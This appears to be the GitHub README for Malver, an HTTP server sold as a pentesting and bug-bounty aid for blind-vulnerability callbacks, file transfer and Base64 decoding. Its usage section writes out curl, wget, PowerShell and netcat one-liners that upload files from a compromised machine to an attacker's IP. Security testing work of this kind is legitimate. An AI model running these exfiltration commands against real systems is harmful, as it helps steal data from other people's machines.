 # Malver - **Mal**icious Ser**ver** for Pentesting & Bug Bounty

## Overview

Malver (**Mal**icious Ser**ver**) is a lightweight HTTP server designed to simplify common tasks in penetration testing and bug bounty hunting. It allows security researchers to efficiently decode Base64 data, validate blind vulnerabilities, and transfer files to and from a compromised system.

## Features

- Base64 Decoding – Quickly decode attacker-controlled data.
- File Transfer – Upload/download files in engagements.
- Blind Vulnerability Testing – Use `/` to validate SSRF, RCE, or command injection.
- Configurable – Customize endpoint paths and directories via CLI.
- Logging – Outputs structured logs for tracking interactions.

## Endpoints

| Method | Endpoint | Description |
| ---- | ---- | ---- |
| GET | `/` | Used to validate blind vulnerabilities by sending a request.|
| GET | `/down/{filename}` | Downloads a file from the victim’s machine.|
| POST | `/up` | Uploads a file from the victim’s machine to the attacker's system.|
| GET | `/b64d?d=<encoded>` | Decodes Base64-encoded query data.|


## Installation

Ensure you have Go installed, then run:

```bash
go install github.com/omarelshopky/malver/cmd@latest
```

This will install the malver binary in your Go bin directory.

## Usage

```bash
malver [-port=3000] [-upload=./uploads] [-download=./downloads] [-ping-endpoint=/] [-down-endpoint=/down] [-up-endpoint=/up] [-b64d-endpoint=/b64d]
```

## Command-Line Flags

| Flag | Default | Description |
| ---- | ---- | ---- |
| `-port` | `3000` | Port to run the HTTP server on |
| `-upload` | `./uploads` | Directory for file uploads |
| `-download` | `./downloads` | Directory for file downloads |
| `-ping-endpoint` | `/` | Endpoint for ping |
| `-down-endpoint` | `/down/` | Endpoint for file downloads |
| `-up-endpoint` | `/up` | Endpoint for file uploads |
| `-b64d-endpoint` | `/b64d` | Endpoint for base64 decoding |


## Example Use Cases

- Send a request to `/` and check if the target system can reach back.

- Upload a shell or tool using the `/up` endpoint.

> cURL (Multipart Upload)

```bash
curl -X POST http://<ATTACKING_IP>:3000/up -F "file=@<FILE_PATH>"
```

> cURL (Raw Binary Upload)

```bash
curl -X POST --data-binary "@<FILE_PATH>" http://<ATTACKING_IP>:3000/up -H "Filename: <FILE_PATH>"
```

> wget

```bash
wget --method=POST --body-file=<FILE_PATH> --header="Filename: <FILE_PATH>" --header="Content-Type: application/octet-stream" "http://<ATTACKING_IP>:3000/up"
```

> Invoke-WebRequest

```powershell
Invoke-WebRequest -Uri "http://<ATTACKING_IP>:3000/up" -Method Post -InFile "<FILE_PATH>" -ContentType "application/octet-stream" -Headers @{"Filename"="<FILE_PATH>"}
```

> Invoke-RestMethod

```powershell
Invoke-RestMethod -Uri "http://<ATTACKING_IP>:3000/up" -Method Post -InFile "<FILE_PATH>" -ContentType "application/octet-stream" -Headers @{"Filename"="<FILE_PATH>"}
```

> netcat

```bash
(echo -en "POST /up HTTP/1.1\r\nHost: <ATTACKING_IP>:3000\r\nContent-Length: $(wc -c < <FILE_PATH>)\r\nFilename: <FILE_PATH>\r\nContent-Type: application/octet-stream\r\n\r\n"; cat <FILE_PATH>) | nc <ATTACKING_IP> 3000
```

- Retrieving files from a compromised machine using `/down/{filename}` to download files.

- Extract and decode data sent from an exploited machine using `/b64d?q=<encoded>`


## Logging

All requests are logged in the following format:

```bash
<DATE> <TIME> <CLIENT_IP>:<CLIENT_PORT> "<METHOD> <ENDPOINT><QUERY_PARAMS> HTTP/<HTTP_VERSION>" <STATUS_CODE> - [<POST_DATA>] <ENDPOINT_SPECIFIC_MESSAGE>
```

This helps track interactions with the server, including query parameters, POST data, and decoded Base64 content.


## Disclaimer

Malver is intended for legal penetration testing and security research only. Unauthorized use of this tool against systems without explicit permission is illegal and unethical. The author is not responsible for any misuse.
